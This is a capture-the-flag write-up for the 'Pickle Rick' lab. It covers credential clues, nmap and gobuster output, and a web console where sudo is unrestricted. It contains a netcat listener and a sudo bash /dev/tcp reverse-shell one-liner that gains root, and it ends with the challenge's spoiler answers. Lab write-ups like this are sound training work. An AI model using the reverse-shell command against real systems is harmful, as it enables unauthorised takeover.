

# Pickle Rick



<details>
    <summary>Clue in source code:</summary>

    ```html
    <!--
        Note to self, remember username!

        Username: R1ckRul3s
    -->
    ```

</details>

<details>
    <summary>Clue in robots.txt:</summary>

    ```
    Wubbalubbadubdub
    ```

</details>

## Nmap

```bash
nmap -A -sC -T5 10.10.20.211
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-17 22:59 WEST
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Nmap scan report for 10.10.20.211
Host is up (0.056s latency).

PORT     STATE    SERVICE   VERSION
22/tcp   open     ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 82c17a3ef1a9c48837803bb3aacc83b0 (RSA)
|   256 958b0f4d98dfe1221294014fb515947d (ECDSA)
|_  256 a0b4f06c0946f55a2fbd3f4441f386d6 (ED25519)

80/tcp   open     http      Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool

254/tcp  filtered unknown

3007/tcp filtered lotusmtap
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 14.21 seconds
```

## Gobuster

```bash
gobuster dir -u http://10.10.20.211 -w wordlists/dirb/big.txt
```

```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.20.211
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/04/18 00:17:14 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403)
/.htaccess            (Status: 403)
/assets               (Status: 301)
/robots.txt           (Status: 200)
/server-status        (Status: 403)
/index.html           (Status: 200)
/login.php            (Status: 200)
```

Success login, redirected to /portal.php wich contains a terminal window.

## Webpage console

```
$ whoami
www-data
$ sudo -l
Matching Defaults entries for www-data on ip-10-10-20-211.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-20-211.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

We can run any command as www-data without a password.

## Exploit

Reference: [https://gtfobins.github.io/gtfobins/bash/](https://gtfobins.github.io/gtfobins/bash/)

Locally:

```bash
nc -l -p 12345
```

Webpage:

```bash
sudo bash -c 'exec bash -i &>/dev/tcp/10.8.105.196/12345 <&1'
```


Success!

```
root@ip-10-10-20-211:/var/www/html# cd /root
cd /root
root@ip-10-10-20-211:~# ls -la 
ls -la
total 32
drwx------  4 root root 4096 Apr 17 23:07 .
drwxr-xr-x 23 root root 4096 Apr 17 22:53 ..
-rw-------  1 root root   11 Apr 17 23:07 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  3 root root 4096 Feb 10  2019 snap
```

## Spoiler alert

<details>
    <summary>What is the first ingredient Rick needs?</summary>

    ```
    /var/www/html/
    mr. meeseek hair
    ```

</details>

<details>
    <summary>Whats the second ingredient Rick needs?</summary>

    ```
    /home/rick/
    1 jerry tear
    ```

</details>

<details>
    <summary>Whats the final ingredient Rick needs?</summary>

    ```
    /root/
    3rd ingredients: fleeb juice
    ```

</details>
